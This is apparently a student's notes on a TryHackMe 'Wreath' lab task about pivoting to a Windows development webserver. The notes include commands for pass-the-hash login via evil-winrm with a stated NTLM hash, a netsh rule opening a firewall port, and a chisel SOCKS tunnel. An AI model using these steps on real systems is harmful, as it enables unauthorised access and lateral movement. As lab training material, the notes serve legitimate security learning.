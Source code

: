 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s <chisel_windows.exe directory>
```

2. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=44444
```

3. Download  it from https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz/. #Attacking_Machine 

4. Decompress the .gz file. #Attacking_Machine 

5. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

6. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
./chisel.exe server -p 44444 --socks5
```

7. Install chisel on Kali Linux. #Attacking_Machine 
	1. **Download Chisel Binary**
	    
	    - Visit the official [Chisel GitHub releases page](https://github.com/jpillora/chisel/releases).
	    - Identify the latest version and download the Linux binary:
	        `wget https://github.com/jpillora/chisel/releases/download/v1.9.0/chisel_1.9.0_linux_amd64.gz`
	        
	2. **Uncompress the Binary**
	    
	    - Use `gzip` to extract the file:
	        `gunzip chisel_1.9.0_linux_amd64.gz mv chisel_1.9.0_linux_amd64 chisel chmod +x chisel`
	        
	3. **Move Binary to System Path**
	    
	    - Place it in `/usr/local/bin` so it can be accessed globally:
	        `sudo mv chisel /usr/local/bin`
	        
	4. **Verify Installation**
	    
	    - Check if Chisel is installed correctly:
	        
	        `chisel --help`

8. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:44444 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

9. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

10. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

11. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
